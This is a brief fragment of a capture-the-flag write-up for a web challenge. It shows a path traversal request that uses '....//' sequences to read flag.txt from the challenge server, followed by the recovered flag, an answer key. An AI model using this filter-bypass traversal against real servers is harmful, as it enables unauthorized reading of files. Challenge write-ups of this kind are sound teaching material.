 ```
http://165.232.88.151:3333/page?path=....//....//....//....//flag.txt
```

[![image.png](https://i.postimg.cc/k5KtMF2Y/image.png)](https://postimg.cc/DWfzBGd1)

## Flag : 

```
DEFENSYS{pa7h_tr4v3rs4l_vu3ln_!!}
```
